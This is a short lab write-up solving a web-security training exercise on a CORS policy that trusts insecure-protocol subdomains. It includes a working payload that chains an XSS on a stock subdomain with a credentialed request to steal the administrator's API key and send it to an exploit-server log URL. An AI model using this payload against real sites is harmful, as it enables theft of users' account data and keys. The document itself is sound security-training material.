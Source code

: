 # Practitioner Lab 88 : CORS vulnerability with trusted insecure protocols

---

This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

![Untitled](Practitioner%20Lab%2088%20CORS%20vulnerability%20with%20truste%20a3885e867a8941168b53a39aee01a6ea/Untitled.png)

Here I find the page that gets the api keys.

Now I will use this to test what type of access control policy it has.

![Untitled](Practitioner%20Lab%2088%20CORS%20vulnerability%20with%20truste%20a3885e867a8941168b53a39aee01a6ea/Untitled%201.png)

I found xss that could likely be exploited. 

![Untitled](Practitioner%20Lab%2088%20CORS%20vulnerability%20with%20truste%20a3885e867a8941168b53a39aee01a6ea/Untitled%202.png)

The window that opens has its own address. 

Here I found a subdomain that has an xss vulnerability. I can use this to exploit it .

![Untitled](Practitioner%20Lab%2088%20CORS%20vulnerability%20with%20truste%20a3885e867a8941168b53a39aee01a6ea/Untitled%203.png)

Here we can see that it is explitable.

![Untitled](Practitioner%20Lab%2088%20CORS%20vulnerability%20with%20truste%20a3885e867a8941168b53a39aee01a6ea/Untitled%204.png)

```
<script>
    document.location="http://stock.0a17008404f3ac8681091b69000800f3.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a17008404f3ac8681091b69000800f3.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location=' https://exploit-0afa00b8046caca9819e1a2401200030.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

Using this payload I was able to get it.

This solved the lab.